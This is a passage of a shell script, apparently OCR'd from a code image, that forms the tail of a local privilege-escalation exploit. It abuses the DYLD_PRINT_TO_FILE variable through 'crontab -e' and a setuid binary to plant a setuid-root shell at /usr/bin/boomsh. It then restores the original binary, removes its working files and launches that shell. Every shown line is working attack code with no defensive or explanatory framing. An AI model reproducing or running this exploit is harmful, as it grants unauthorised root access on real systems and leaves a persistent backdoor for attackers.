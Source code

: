 ```
}
EOF

cp $SUIDVICTIM $TARGET/backup
gcc -o $TARGET/overwrite $TARGET/overwrite.c
gcc -o $TARGET/boomsh $TARGET/boomsh.c

EDITOR=$TARGET/overwrite DYLD_PRINT_TO_FILE=$SUIDVICTIM crontab -e 2> /dev/null
echo "cp $TARGET/boomsh /usr/bin/boomsh; chmod 04755 /usr/bin/boomsh " | $SUIDVICTIM > /dev/null 2> /dev/null
echo "cp $TARGET/backup $SUIDVICTIM" | /usr/bin/boomsh > /dev/null 2> /dev/null

rm -rf $TARGET

/usr/bin/boomsh
```
